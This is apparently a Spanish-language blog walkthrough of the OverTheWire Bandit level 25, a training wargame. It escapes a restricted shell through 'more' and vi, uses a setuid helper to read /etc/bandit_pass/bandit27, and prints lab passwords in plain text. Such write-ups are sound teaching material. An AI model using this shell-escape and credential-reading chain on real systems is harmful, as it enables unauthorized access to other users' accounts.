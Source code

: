 ```yaml
---
title: Bandit-25 🔥🔥
published: true
---
```


## [](#header-1)Login

```bash
sshpass -p uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG \
ssh bandit25@bandit.labs.overthewire.org -p2220
```

## [](#header-1)Level Goal

```
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user
bandit26 is not /bin/bash, but something else. Find out what it is, how it works
and how to break out of it.

Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd
```

En este reto nos dice que para acceder a bandit26, no podremos conectarnos mediante ssh ya que la shell no es /bin/bash

```
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed.
```

Nos dice que no usa una shell /bin/bash . Asi que echemos un vistazo en /etc/passwd que shell esta utilizando bandit26

```
bandit25@bandit:~$ cat /etc/passwd|grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

Echemos un vistazo con un cat a /usr/bin/showtext

```bash
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```

Al conectarnos por ssh ejecuta el script anterior viendose solamente

```
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/

```

Sabemos que ejecuta el comando more, mostrandose el dibujo ascii anterior. La particularidad
de este comando es que cuando el texto del fichero supera al tamaño de la página, aparece al final 

```
--More--(x%)
```

Esta función es para poder leer el texto adecuadamente pudiendo movernos a lo largo de este con
cierta comodidad. 

Al ser tan poco texto, no sucederá, para eso podemos redimensionar la página a pocas lineas

![](https://madmb.github.io/imgs/bandit25-cap01.png)

![](https://madmb.github.io/imgs/bandit25-cap02.png)


En este estado ya podemos redimensionar a un tamaño más cómodo y entrar directamente al editor vi.
En el man de more existe un atajo para acceder al editor vi. 

```
     v           Iniciar /usr/bin/vi en la línea actual.
```

Asi que tecleamos v, y al entrar en vi tenemos que setear la shell 

```
:set shell=/bin/bash
```

Y ya podemos ejecutar comandos como por ejemplo:

```
:!ls -l
[No write since last change]
total 12
-rwsr-x--- 1 bandit27 bandit26 7296 May  7  2020 bandit27-do
-rw-r----- 1 bandit26 bandit26  258 May  7  2020 text.txt

```

Vemos un fichero llamado bandit27-do, vamos a ejecutarlo

```
:!./bandit27-do
[No write since last change]
Run a command as another user.
  Example: ./bandit27-do id

shell returned 1
```

Es un binario que nos permite ejecutar comandos siendo el usuario bandit27.
Vamos a leer el fichero pass de /etc/bandit_pass/bandit27

```
:!./bandit27-do cat /etc/bandit_pass/bandit27
[No write since last change]
3ba3118a22e93127a4ed485be72ef5ea
```

La pass es:

```
3ba3118a22e93127a4ed485be72ef5ea
```


[Volver al archivo](archive)
